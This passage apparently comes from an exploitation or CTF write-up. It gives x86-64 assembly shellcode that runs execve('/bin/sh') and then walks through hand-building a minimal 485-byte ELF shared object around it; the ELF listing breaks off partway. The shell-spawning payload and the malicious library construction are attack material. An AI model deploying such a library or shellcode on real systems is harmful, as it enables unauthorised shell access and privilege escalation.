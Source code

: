 ```asm
  mov rbx,'/bin/sh'
  push rbx
  mov rdi,rsp
  push rax
  push rdi
  mov rsi,rsp
  mov al, 59
  syscall
  mov rax, 231 ; sys_exit_group
  mov rdi, 42  ; int status
  syscall
filesize  equ  $ - $$
```


Then, in order to convert this into a shared object file, we cross-referenced the smallest working `.so` file we had in IDA, and copied the required program headers and dynamic section. We didn't include the section headers as they weren't required for the program to run.
 
This gave us the following minimalistic 485 byte shared object file:


```asm
; nasm -f bin -o libcopy.so libcopy.asm
BITS 64
  org 0x0
ehdr:           ; Elf64_Ehdr
  db 0x7f, "ELF", 2, 1, 1, 0 ; e_ident
  times 8 db 0
  dw  3         ; e_type
  dw  0x3e      ; e_machine
  dd  1         ; e_version
  dq  _init; e_entry
  dq  phdr - $$ ; e_phoff
  dq  0x358; e_shoff
  dd  0         ; e_flags
  dw  ehdrsize  ; e_ehsize
  dw  phdrsize  ; e_phentsize
  dw  3         ; e_phnum
  dw  0x40         ; e_shentsize
  dw  0x9         ; e_shnum
  dw  0x8         ; e_shstrndx
  ehdrsize  equ  $ - ehdr
phdr:           ; Elf64_Phdr
  dd  1         ; p_type
  dd  5         ; p_flags
  dq  0         ; p_offset
  dq  $$  ; p_vaddr
  dq  $$         ; p_paddr
  dq  filesize  ; p_filesz
  dq  filesize  ; p_memsz
  dq  0x200000    ; p_align
  phdrsize  equ  $ - phdr
lhdr:
  dd 1
  dd 6
  dq filesize
  dq 0x200000 + filesize
  dq 0x200000 + filesize
  dq 0xc0
  dq 0xc0
  dq 0x200000  
dhdr:
  dd 2  ; p_type
  dd 6  ; p-flags
```
